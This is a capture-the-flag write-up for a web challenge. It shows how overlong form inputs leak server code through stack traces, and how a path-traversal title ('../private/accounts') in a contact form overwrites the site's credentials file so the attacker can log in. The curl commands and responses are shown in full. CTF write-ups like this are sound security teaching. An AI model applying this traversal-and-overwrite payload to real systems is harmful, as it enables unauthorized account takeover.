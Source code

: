 # Gotta catch em all
Category: Web, 80 Points

## Description

> Ash was too busy catching pokemons that he forgot his credentials.


## Solution

The attached website contained four pages, and two of them contained forms.

The first form was a login form:
```html
<form action="/login" method="post">
    <input placeholder="username" size="20" name="username"></input><br>
    <input placeholder="password" size="20" name="password"></input><br><br>
    <input type="submit" class="button" value="Submit">
</form>
```

The second, a "Contact Me" page:
```html
<form action="/messageSent" method="post">
    <textarea rows="1", cols="80" placeholder="Title" name="title"></textarea><br><br>
    <textarea rows="20" cols="80" placeholder="Body" name="body"></textarea><br>
    <input type="submit" class="button" value="Submit">
</form>
```

Let's start with the login page. We'll send a long username:
```console
root@kali:/media/sf_CTFs/matrix/Gotta_catch_em_all# curl 'https://ashmatd.herokuapp.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=aaaaaaaaaaaaaaaaaaaaa&password=b'
```

As a response, we get a Python stack trace which leaks the login handler:
```python
@app.route('/login', methods=["POST"])

def login_attempt():
        username = request.form['username']
        password = request.form['password']

        if len(username) > 20 or len(password) > 20:
                raise Exception("Given username/password is too big")

        with open(HOME + 'private/accounts.txt') as f:
                accounts_data = f.readlines()

        accounts = {account.split(': ')[0]: account.split(': ')[1] for account in accounts_data}
        if username in accounts and accounts[username] == password:
                #Success

```

We can see that the username and password come from a file called `private/accounts.txt` where they are stored the format: `username: password`.

Now, let's try the same trick on the "Contact Me" form:
```console
root@kali:/media/sf_CTFs/matrix/Gotta_catch_em_all# curl 'https://ashmatd.herokuapp.com/messageSent' -H 'Content-Type: application/x-www-form-urlencoded' --data 'title=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&body=b'
```

Again, we get a code leak via the stack trace:
```python
File "/app/app.py", line 25, in post_message
        body = str(request.form['body'])
        title = title.translate(None, ':*?"<>|')
        if len(title) == 0:
                title = "default title"

        if len(request.form['title']) > 30:
                raise Exception("Given title is too big")

        with open(HOME + 'messages/{}.txt'.format(title), "a+") as f:
                f.write(body)

        return render_template('message sent.html')
```

So now we know that the message is saved under `'messages/{}.txt'.format(title)`. Looks like all we need to do is override the accounts database using a specially crafted title:
```console
root@kali:/media/sf_CTFs/matrix/Gotta_catch_em_all# curl 'https://ashmatd.herokuapp.com/messageSent' -H 'Content-Type: application/x-www-form-urlencoded' --data 'title=../private/accounts&body=open: sesame'
<!DOCTYPE html>
<html>
<head>
<title>message sent - Ash's site</title>
<link rel="stylesheet" type="text/css" href="/static/styles/styles.css">
</head>
<body>

<h1>Message Sent Successfully</h1>
<h3>I will read it as soon as possible</h3>
<form action="/" method="get">
<input type="submit" class="button" value="home">
</form>
</body>
</html>
```

This will override:
```python
>>> 'messages/{}.txt'.format('../private/accounts')
'messages/../private/accounts.txt'
```

Now we try to login using the username and password we used in the message body:
```console
root@kali:/media/sf_CTFs/matrix/Gotta_catch_em_all# curl 'https://ashmatd.herokuapp.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=open&password=sesame'
<!DOCTYPE html>
<html>
<head>
<title>congradulations - Ash's site</title>
<style>
body {
  background-color: #fc03ca;
  text-align: center;
  color: white;
  font-family: Arial, Helvetica, sans-serif;
}

</style>
</head>
<body>

<h1 style="color:blue">congratulations!!!!</h1>
<h2 style="color:green">Here is your Flag...</h2>
<h1>FLAG_aSh_Ketchup</h1>
</body>
</html>
```

We got the flag.